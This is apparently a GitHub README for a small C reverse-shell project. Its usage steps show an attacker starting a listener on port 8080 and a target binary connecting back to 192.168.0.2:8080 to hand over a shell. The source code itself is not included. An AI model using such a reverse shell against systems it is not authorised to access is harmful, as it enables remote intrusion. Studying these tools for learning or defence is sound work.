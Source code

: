 # reverseShell
Scripts in C which after compiling can be used by an 
**Attacker** 
to gain a shell of
**Target** 
machine.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./attacker 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the target compiled file

```
./target 192.168.0.2 8080
```

Now you should have a prompt on server machine.

## Demo
![Alt Text](https://github.com/Yashvendra/reverseShell/blob/master/Demo/video-gif.gif)

## License
MIT © y_k_007

